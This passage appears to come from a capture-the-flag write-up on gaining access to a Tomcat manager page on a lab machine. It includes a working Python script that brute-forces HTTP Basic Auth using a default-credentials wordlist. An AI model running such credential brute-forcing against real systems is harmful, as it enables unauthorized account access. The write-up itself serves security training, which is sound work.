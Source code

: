 #### 2

Write a script to brute-force credentials in `Python` or `Ruby` or in any language you feel comfortable with.

Mine looks like this:

```python
import requests
from requests.auth import HTTPBasicAuth

url = "http://10.10.10.95:8080/manager/html"

dictionary = "/usr/share/wordlists/SecLists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt"

def load_credentials(dictionary):
    with open(dictionary, "r") as file:
        credentials = []
        for i in file:
            credentials.append(i.rstrip().split(":"))
    return credentials

def brute_force_tomcat(url, credentials):
    for username, password in credentials:

        response = requests.get(url, auth=HTTPBasicAuth(username, password))

        if response.status_code == 200:
            print(f"Success! Logged in with Username: {username} and Password: {password}")
            break
        elif response.status_code == 401:
            print(f"Failed login: {username}:{password}")
        else:
            print(f"Failed login: {username}:{password} Unexpected response: {response.status_code}")

credentials = load_credentials(dictionary)

brute_force_tomcat(url, credentials)
```

#### 3 

After pressing `Cancel` in the login panel it causes an **401 Unauthorized** error and the page shows us credentials.

![web](./Screenshots/jerryweb5.png)
